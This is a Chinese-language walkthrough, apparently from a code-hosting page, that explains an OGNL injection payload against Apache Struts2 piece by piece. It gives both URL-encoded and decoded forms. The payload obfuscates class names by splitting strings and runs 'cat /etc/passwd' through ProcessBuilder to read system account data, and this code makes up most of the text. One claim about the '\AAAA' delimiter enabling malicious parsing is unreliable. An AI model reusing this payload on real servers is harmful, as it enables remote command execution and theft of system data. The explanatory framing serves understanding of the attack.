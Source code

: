 1. `%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27)` 部分将从 `context` 对象中获取 `com.opensymphony.xwork2.dispatcher.HttpServletRequest` 对象，并将其赋值给 `req` 变量。

   ```java
   %23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27)
       
   ###
   #req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest')
   ```

2. `%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream())` 部分创建了一个 `Scanner` 对象 `s`，并将其初始化为执行命令 `cat /etc/passwd` 的结果。

   ```java
   %23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27)
       
   ####
   #s=new java.util.Scanner((new java.lang.ProcessBuilder('cat /etc/passwd'.toString().split('\\s'))).start().getInputStream()).useDelimiter('\\AAAA'),
   ```

   `.useDelimiter(%27\\AAAA%27)` 是针对 `java.util.Scanner` 对象设置分隔符为 `\AAAA`, 这个字符串并不是特定的含义，可以是任意值。

   设置分隔符为 `%27\\AAAA%27` 的作用是告诉 `Scanner` 对象在扫描输入文本时，以 `%27\AAAA%27` 作为分隔符，将输入文本切割成多个部分。这样，攻击者可以利用特定的分隔符来构造输入，使得 `Scanner` 在扫描过程中将输入解析成恶意的代码片段。

3. `%23str%3d%23s.hasNext()?%23s.next():%27%27` 部分将执行 `s.hasNext()` 方法判断是否还有输入内容，如果有则调用 `s.next()` 方法获取输入内容并将其赋值给 `str` 变量，如果没有则将空字符串赋值给 `str` 变量。

   ```java
   %23str%3d%23s.hasNext()?%23s.next():%27%27
   ####
   #str=#s.hasNext()?#s.next():''
   ```

4. `%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27)` 部分从 `context` 对象中获取 `com.opensymphony.xwork2.dispatcher.HttpServletResponse` 对象，并将其赋值给 `resp` 变量。

   ```java
   %23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),
   
   ####
   #resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),
   ```

5. `%23resp.setCharacterEncoding(%27UTF-8%27)` 部分设置响应的字符编码为 `UTF-8`。

   ```java
   %23resp.setCharacterEncoding(%27UTF-8%27)
   ####
   #resp.setCharacterEncoding('UTF-8')
   ```
